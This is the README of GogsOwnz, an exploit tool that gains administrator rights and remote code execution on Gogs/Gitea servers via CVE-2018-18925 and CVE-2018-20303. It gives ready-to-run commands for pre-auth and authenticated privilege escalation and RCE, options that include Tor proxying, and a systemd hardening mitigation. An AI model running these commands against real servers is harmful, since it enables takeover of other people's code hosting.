 # GogsOwnz

GogsOwnz is a simple script to gain administrator rights and RCE on a Gogs/Gitea server.  
Exploit vulnerabilities in Gogs/Gitea, including **CVE-2018-18925**, **CVE-2018-20303**.

**Legal Disclaimer**
This script is offered as is. No warranty, use on your own, please obey the law.

### Typical Usage - [Please, read the full usage]

Get info about Gogs/Gitea running

    python3 gogsownz.py https://127.0.0.1:3000/ -v --info

Exploit preauth PrivEsc

    python3 gogsownz.py https://127.0.0.1:3000/ -v --preauth

Exploit PrivEsc

    python3 gogsownz.py https://127.0.0.1:3000/ -v -C '<user>:<password>' --cleanup
    
  _or alternatively_

    python3 gogsownz.py https://127.0.0.1:3000/ -v -c '<i_like_gogs_cookie>' --cleanup

Exploit preauth RCE

    python3 gogsownz.py https://127.0.0.1:3000/ -v --preauth --rce 'sleep 10' --cleanup

Exploit auth RCE

    python3 gogsownz.py https://127.0.0.1:3000/ -v -C '<user>:<password>' --rce 'sleep 10' --cleanup


Full usage
```
usage: gogsownz [-h] [-C CREDS] [-n COOKIENAME] [-c COOKIE] [-i] [--rce RCE]
                [--repo REPO] [--preauth] [--windows] [--cleanup] [--tor]
                [--check-tor] [--burp] [-k] [--verbose]
                url

positional arguments:
  url                   URL for the Gogs server

optional arguments:
  -h, --help            show this help message and exit
  -C CREDS, --creds CREDS
                        Credentials for the Gogs server, in the from
                        "username:password"
  -n COOKIENAME, --cookie-name COOKIENAME
                        Name of the Gogs-specific session cookie
  -c COOKIE, --cookie COOKIE
                        Session for the Gogs server, the value in the
                        i_like_gogits Cookie
  -i, --info            Only detect informations about the running Gogs
                        server, then quit
  --rce RCE             Command to execute on the Gogs server
  --repo REPO           Use an existing repo for the PrivEsc
  --preauth             Try the pre-auth vulnerability
  --windows             Gogs server runs on Windows
  --cleanup             Remove all created repo after exploit
  --tor                 Use tor proxy when performing requests
  --check-tor           Check that Tor is correctly set up before running
  --burp                Use burp proxy when performing requests
  -k, --insecure        Allow insecure server connections when using SSL
  --verbose, -v

```

### Thanks

Thanks to:
- Tencent Security (@md5_salt, @ma7h1as and @chromium1337)
- PentesterLab (@snyff)
- LuckyC4t
- the gogs security community :D

### Further readings

https://github.com/gogs/gogs/issues/5469  
https://github.com/gogs/gogs/issues/5558  
https://github.com/gogs/gogs/commit/8c8c37a66b4cef6fc8a995ab1b4fd6e530c49c51  
https://github.com/gogs/gogs/issues/5599  
https://2018.zeronights.ru/wp-content/uploads/materials/17-Who-owned-your-code.pdf

### Mitigations

If you take care in setting up your systemd unit file, you'll be pleasantly surprised to see that exploitation is somewhat contained:

```
[Unit]
Description=Gogs
After=syslog.target
After=network.target

[Service]
Type=simple
User=gogs
Group=gogs
WorkingDirectory=/home/gogs/installations/gogs/
ExecStart=/home/gogs/installations/gogs/gogs web
Restart=always
Environment=USER=gogs HOME=/home/gogs

# Some distributions may not support these hardening directives. If you cannot start the service due
# to an unknown option, comment out the ones not supported by your version of systemd.
ProtectSystem=full
PrivateDevices=yes
PrivateTmp=yes
NoNewPrivileges=true

[Install]
WantedBy=multi-user.target
```

This will at least keep filesystem access contained to an ephemeral filesystem created by systemd. It helps, but you should probably patch the privesc and not give any admin.. obviously
